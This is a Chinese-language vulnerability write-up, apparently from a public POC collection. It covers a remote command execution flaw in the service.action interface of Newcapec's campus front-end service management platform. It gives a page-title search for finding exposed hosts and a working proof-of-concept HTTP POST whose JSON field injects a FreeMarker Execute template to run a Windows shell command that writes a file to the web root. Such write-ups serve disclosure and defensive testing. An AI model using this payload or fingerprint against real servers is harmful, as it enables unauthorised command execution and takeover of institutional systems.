 # 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>新开普 前置服务管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="掌上校园服务管理平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691989411711-5c56958b-5bbf-4b98-89c2-4151004d3504.png)

验证POC

```http
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![img](../../../.vuepress/public/img/1691990575177-be0f5d8c-cd7e-4274-a782-6fd506f39232.png)

![img](../../../.vuepress/public/img/1691990627821-b50c7d15-6d79-4fff-8aa8-e546cec37abf.png)